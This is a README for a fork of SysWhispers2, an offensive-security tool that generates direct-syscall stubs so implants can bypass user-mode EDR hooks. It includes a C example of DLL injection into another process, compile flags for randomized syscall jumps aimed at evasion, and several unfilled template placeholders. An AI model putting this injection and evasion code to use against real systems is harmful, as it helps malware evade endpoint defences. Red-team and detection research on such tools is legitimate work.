 ## 🚀 SysWhispers2

🔧 SysWhispers2 helps with evasion by generating header/ASM files that implants can use to make direct system calls, bypassing user-mode hooks. This fork includes additional customizations and improvements.

## 🔑 Key Differences from Original SysWhispers2
  ✅ Enhanced Features: [Describe modifications, e.g., "Added support for XYZ syscalls."]
  ✅ Compatibility: [Mention extended OS/toolchain support.]
  ✅ Optimizations: [Highlight performance/usability improvements.]

## 🛠 Features
✔ Generates header/ASM files for direct syscalls.
✔ Supports all core syscalls with cross-version compatibility.
✔ Randomized function name hashes for evasion.
✔ Lightweight & easy integration.

## 📥 Installation
      git clone https://github.com/your-username/SysWhispers2.git
      cd SysWhispers2
    python syswhispers.py --help
    
## 🚦 Usage Examples
  🔹 Generate Common Syscalls
  
    python syswhispers.py --preset common -o syscalls_common
    
  🔹 Generate Custom Syscalls

    python syswhispers.py --functions NtProtectVirtualMemory,NtWriteVirtualMemory -o syscalls_mem
    
  🔹 Example: DLL Injection with Direct Syscalls
  c
    
    #include "syscalls.h" // Generated header
    void InjectDll(HANDLE hProcess, const char* dllPath) {
    HANDLE hThread = NULL;
    LPVOID lpAllocationStart = nullptr;
    SIZE_T szAllocationSize = strlen(dllPath);
    LPVOID lpStartAddress = GetProcAddress(GetModuleHandle(L"kernel32.dll"), "LoadLibraryA");

    NtAllocateVirtualMemory(hProcess, &lpAllocationStart, 0, (PULONG)&szAllocationSize, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    NtWriteVirtualMemory(hProcess, lpAllocationStart, (PVOID)dllPath, strlen(dllPath), nullptr);
    NtCreateThreadEx(&hThread, GENERIC_EXECUTE, NULL, hProcess, lpStartAddress, lpAllocationStart, FALSE, 0, 0, 0, nullptr);
    }
    
## 📜 Supported Functions
  Using --preset common includes:

  -NtCreateProcess

  -NtOpenThread

  -NtReadVirtualMemory

  -NtAllocateVirtualMemory

  -... and more.

<details> <summary>📂 Click to expand full list</summary>
[Include the same list as in the original README or update it if needed.]

</details>
🔌 Integration
Visual Studio
Copy generated files (*.h, *.c, *.asm) into your project.

Enable MASM in Project → Build Customizations.

Add files and configure platform settings (x86/x64).

# MinGW + NASM

    # x86 Example
    i686-w64-mingw32-gcc -c main.c syscalls.c -Wall -shared
    nasm -f win32 -o syscalls.x86.o syscalls.x86.nasm
    i686-w64-mingw32-gcc *.o -o output.exe
    Random Syscall Jumps (Evasion)
    Compile with -DRANDSYSCALL and use rnd ASM files:


    x86_64-w64-mingw32-gcc main.c syscalls.c syscalls.rnd.x64.s -DRANDSYSCALL -Wall -o output.exe
    
## ⚠️ Caveats
  ❌ Graphical subsystem syscalls (win32k.sys) are not supported.
  ❌ Tested on [Your Environments].

🙏 Credits
Based on the original SysWhispers2 by @Jackson_T and @modexpblog.
Additional contributions by Mangala-Mnmatharaja🎯.

📜 License
Apache License 2.0. See LICENSE for details.
